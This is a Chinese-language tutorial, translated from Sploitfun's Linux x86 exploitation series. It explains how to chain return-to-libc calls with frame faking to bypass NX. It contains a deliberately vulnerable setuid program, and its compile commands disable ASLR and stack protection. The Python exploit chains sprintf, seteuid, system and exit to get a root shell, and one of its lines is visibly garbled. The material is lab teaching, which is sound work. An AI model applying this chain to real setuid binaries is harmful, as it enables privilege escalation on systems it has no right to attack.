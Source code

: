CSysSec注： 本系列文章译自安全自由工作者Sploitfun的漏洞利用系列博客，从经典栈缓冲区漏洞利用堆漏洞利用，循序渐进，是初学者不可多得的好材料，本系列所有文章涉及的源码可以在这里找到。CSysSec计划在原基础上不断添加相关漏洞利用技术以及相应的Mitigation方法，欢迎推荐或自荐文章。  
转载本文请务必注明，文章出处：《[Linux(X86)漏洞利用系列-Return-to-libc链接绕过NX](http://www.csyssec.org/20170101/chainingreturntolibc)》与作者信息：CSysSec出品  

VM Setup: Ubuntu 12.04(x86) 

## 什么是Return-to-libc链接

在前文中可以看出，攻击者需要调用多个libc函数才能成功利用漏洞。一种链接libc函数的简单方法就是将不同libc函数依次放在栈中。但由于函数参数的原因，这是不可能的。现在你可能还不明白，没关系，继续往下读就好。  

漏洞代码:  

``` c
//vuln.c
#include <stdio.h>
#include <string.h>
int main(int argc, char* argv[]) {
 char buf[256];
 seteuid(getuid()); /* Temporarily drop privileges */
 strcpy(buf,argv[1]);
 printf("%s",buf);
 fflush(stdout);
 return 0;
}
```
注意: 上述代码和前文中的(vuln_priv.c)一样。  

编译命令:

``` bash
#echo 0 > /proc/sys/kernel/randomize_va_space
$gcc -fno-stack-protector -g -o vuln vuln.c
$sudo chown root vuln
$sudo chgrp root vuln
$sudo chmod +s vuln
```
正如前文所说，链接seteuid,system和exit函数能允许我们利用漏洞代码”vuln”。但并没有这么简单直接，主要在于下面这两个问题：  

1.攻击者需要将两个libc函数参数或者其中一个libc函数参数与另一个libc函数地址放在栈的同一位置。显然这是不可能的(如下图所示)  
2.seteuid_arg必须为0.由于我们的缓冲区溢出是由strcpy操作引起的，0变成了一个不好的字符。比如，strcpy函数不会将0之后的字符拷贝到栈中。  
![](../pictures/chainreturntolibc1.jpeg)  


我们来看看如何解决上述两个问题。  

问题1: 为解决这个问题，Nergal在 [phrack](http://phrack.org/issues/58/4.html) 中提出了两个聪明的技术  

* ESP上升(ESP Lifting)
* 帧欺骗(Frame fakeing)
由于ESP lifting技术要求二进制文件在编译的时候不能设置帧指针(-fomit-frame-pointer)，这里我们只谈帧欺骗技术。 由于我们的二进制文件(vuln)含有帧指针，只好采用帧欺骗技术。     

## 什么是帧欺骗

这项技术不去覆盖返回地址，而是直接覆盖libc函数地址(这个例子中的seteuid函数)，我们采用”leave ret”指令来覆盖。 这让攻击者有机会将函数参数存放在栈中而不必有任何交叉，而且能调用相应的libc函数，并不会带来任何问题。  

栈布局 如下面栈布局所示，帧指针攻击者溢出栈并成功链接libc函数: seteuid, system与exit：  
![](../pictures/chainreturntolibc2.png)   



上图中红色强调的部分是”leave ret”指令调用其上方libc函数的返回地址。举个例子，第一条”leave ret”指令(位于栈地址0xbffff1fc处)调用seteuid()，第二条”leave ret”指令(位于栈地址0xbffff20c处)调用system()，第三条”leave ret”指令(位于栈地址0xbffff21c处)调用exit().  

## leave ret指令是如何调用其上方libc函数的 

为了回答这个问题，首先我们要了解”leave”指令。一条”leave”指令可以翻译成:  

```
mov ebp,esp            //esp = ebp
pop ebp                //ebp = *esp
```
我们来反汇编main()函数，以便更进一步了解“leave ret”指令

``` 
(gdb) disassemble main
Dump of assembler code for function main:
  ...
  0x0804851c <+88>: leave                  //mov ebp, esp; pop ebp;
  0x0804851d <+89>: ret                    //return
End of assembler dump.
(gdb)
```
Main尾声代码:  

如上述栈布局所示，在main函数尾声代码执行之前，攻击者已经溢出栈并用fake_ebp0(0xbffff204)覆盖了main函数的ebp，以及利用”leave ret”指令地址(0x0804851c)覆盖了其返回地址。 现在当CPU要执行main函数的尾声代码时，EIP指向text地址0x0804851c（”leave ret”)。在执行过程中，会发生下面的事情：  

* ‘leave’修改了下面的寄存器
 	- esp = ebp = 0xbffff1f8
 	- ebp = 0xbffff204, esp = 0xbffff1fc
* ‘ret’执行”leave ret”指令(位于栈地址0xbffff1fc处)

seteuid: 现在EIP又重新指向text地址0x0804851c(“leave ret”). 在执行过程中，会发生下面的事情：  

* ‘leave’修改了下面的寄存器
 	- esp = ebp = 0xbffff204
 	- ebp = 0xbffff214, esp =0xbffff208
* ‘ret’执行seteuis()(位于栈地址0xbffff208). 为了能成功调用seteuid,seteuid_arg必须放在栈地址0xbffff210的偏移量8处(比如seteuid_add）
* 调用seteuid()后，”leave ret”指令(位于栈地址0xbffff20c处)开始执行

可以从上面的栈布局看出，执行上述过程，栈已经按照攻击者的意图设置好，system和exit函数都能得到执行。  

问题2: 在我们的例子中，seteuid必须为0. 但0已经变成一个不好的字符，如何将0写在栈地址0xbffff210处呢？Nergal的同一篇文中讲了一个简单的方法。在链接libc相关函数时，前几个调用必须是strcp函数(其将一个NULL字节拷贝到seteuid_arg在栈中的位置)。  

注意: 但不幸地是我的libc.so.6中strcpy函数的地址是0xb7ea6200。 libc函数地址本身包含一个NULL字节(不好的字符!)。 因此，strcpy不能成功地利用漏洞代码。sprintf（函数地址是0xb7e6e8d0)可以用来替代strcpy。使用sprintf时，NULL字节被拷贝到seteuid_arg在栈中的位置。  

因此链接下面的libc函数可以解决上面提到的两个问题并成功获取root shell:  

sprintf|sprintf|sprintf|sprintf|seteuid|system|exit  
漏洞利用代码:  

``` python
#exp.py
#!/usr/bin/env python
import struct
from subprocess import call
fake_ebp0 = 0xbffff1a0
fake_ebp1 = 0xbffff1b8
fake_ebp2 = 0xbffff1d0
fake_ebp3 = 0xbffff1e8
fake_ebp4 = 0xbffff204
fake_ebp5 = 0xbffff214
fake_ebp6 = 0xbffff224
fake_ebp7 = 0xbffff234
leave_ret = 0x0804851c
sprintf_addr = 0xb7e6e8d0
seteuid_addr = 0xb7f09720
system_addr = 0xb7e61060
exit_addr = 0xb7e54be0
sprintf_arg1 = 0xbffff210
sprintf_arg2 = 0x80485f0
sprintf_arg3 = 0xbffff23c
system_arg = 0x804829d
exit_arg = 0xffffffff
#endianess convertion
def conv(num):
 return struct.pack("<I",num* 264 
buf += conv(fake_ebp0) 
buf += conv(leave_ret) 
#Below four stack frames are for sprintf (to setup seteuid arg )
buf += conv(fake_ebp1) 
buf += conv(sprintf_addr) 
buf += conv(leave_ret) 
buf += conv(sprintf_arg1) 
buf += conv(sprintf_arg2) 
buf += conv(sprintf_arg3) 
buf += conv(fake_ebp2) 
buf += conv(sprintf_addr) 
buf += conv(leave_ret) 
sprintf_arg1 += 1
buf += conv(sprintf_arg1) 
buf += conv(sprintf_arg2) 
buf += conv(sprintf_arg3) 
buf += conv(fake_ebp3) 
buf += conv(sprintf_addr) 
buf += conv(leave_ret) 
sprintf_arg1 += 1
buf += conv(sprintf_arg1) 
buf += conv(sprintf_arg2) 
buf += conv(sprintf_arg3) 
buf += conv(fake_ebp4) 
buf += conv(sprintf_addr) 
buf += conv(leave_ret) 
sprintf_arg1 += 1
buf += conv(sprintf_arg1) 
buf += conv(sprintf_arg2) 
buf += conv(sprintf_arg3)
#Dummy - To avoid null byte in fake_ebp4. 
buf += "X" * 4 
#Below stack frame is for seteuid
buf += conv(fake_ebp5) 
buf += conv(seteuid_addr) 
buf += conv(leave_ret) 
#Dummy - This arg is zero'd by above four sprintf calls
buf += "Y" * 4 
#Below stack frame is for system
buf += conv(fake_ebp6) 
buf += conv(system_addr) 
buf += conv(leave_ret) 
buf += conv(system_arg) 
#Below stack frame is for exit
buf += conv(fake_ebp7) 
buf += conv(exit_addr) 
buf += conv(leave_ret) 
buf += conv(exit_arg) 
print "Calling vulnerable program"
call(["./vuln", buf])
```
执行上面的漏洞利用代码就可以拿到root shell!!!

``` bash
$ python exp.py 
Calling vulnerable program
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�����������������\��������������\��������������\�������������\��� �������AAAA0�������Ѕ
# id
uid=1000(sploitfun) gid=1000(sploitfun) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare),1000(sploitfun)
# exit
$
```
现在已经成功绕过NX,下一篇文章让我们来看看如果绕过ASLR.  